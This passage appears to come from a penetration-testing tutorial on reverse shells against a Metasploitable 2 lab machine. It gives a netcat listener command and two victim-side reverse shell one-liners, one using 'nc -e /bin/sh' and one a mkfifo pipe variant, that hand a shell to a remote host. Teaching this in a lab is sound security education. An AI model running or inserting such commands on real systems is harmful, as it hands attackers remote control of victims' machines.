 For the sake of simplicity, the victim in this example allows outgoing connections on any port (default iptables firewall rule). In our case, the listener port is `4444`
You can change it to your preferred port. Any program or utility that can open `TCP/UDP` connections or sockets can be considered a listener. In most cases, we prefer to use the `nc` utility. 

```bash
nc -nlvp 4444
```

![rev shells](images/rev-shell13.png)    

## Run reverse shell

Again for simplicity, in our examples target is a linux machine (`metasploitable 2`).

**1. Netcat**
Run on a victim machine:

```bash
nc -e /bin/sh 192.168.56.1 4444
```

![rev shells](images/rev-shell14.png)    

**2. Netcat without -e**

Newer linux machine by default has traditional netcat with `GAPING_SECURITY_HOLE` disabled, it means you don’t have the `-e` option of netcat.

In this case, in the victim machine run:

```bash
mkfifo /tmp/p; nc <LHOST> <LPORT> 0</tmp/p | /bin/sh > /tmp/p 2>&1; rm /tmp/p
```
